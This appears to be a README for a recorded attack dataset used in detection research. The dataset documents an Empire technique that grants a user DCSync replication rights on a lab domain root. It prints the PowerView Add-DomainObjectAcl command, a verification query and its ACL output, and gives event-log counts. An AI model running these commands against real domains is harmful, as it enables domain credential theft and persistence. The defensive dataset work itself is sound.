 
# Empire DCSync ACL

An adversary with enough permissions (domain admin) can add an ACL to the Root Domain for any user, despite being in no privileged groups, having no malicious sidHistory, and not having local admin rights on the domain controller itself .

## Technique(s) ID

T1222

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_dcsync_acl.tar.gz](./empire_dcsync_acl.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-01125905

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             280 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             181 |
| Security                                 | Token Right Adjusted Events                            |              93 |
| Security                                 | User Account Management                                |              11 |
| Security                                 | Detailed File Share                                    |               9 |
| Security                                 | Directory Service Changes                              |               6 |
| Security                                 | Group Membership                                       |               4 |
| Security                                 | Logoff                                                 |               4 |
| Security                                 | Logon                                                  |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Authentication Policy Change                           |               3 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | SAM                                                    |               3 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             500 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             271 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             149 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              70 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              45 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              27 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              18 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               6 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               5 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             264 |


## Empire Activity

```
scriptimport data/module_source/situational_awareness/network/powerview.ps1
scriptcmd Add-DomainObjectAcl -TargetIdentity "dc=shire,dc=com" -TargetDomain shire.com -PrincipalIdentity nmartha -Rights DCSync
```

You can verify that it worked by running the following commands:

```
scriptcmd $nmarthaSid = Get-DomainUser nmartha | Select-Object -ExpandProperty objectsid; Get-DomainObjectACL  "dc=shire,dc=com" -Domain shire.com -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $nmarthaSid}
```

```
AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-All
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
```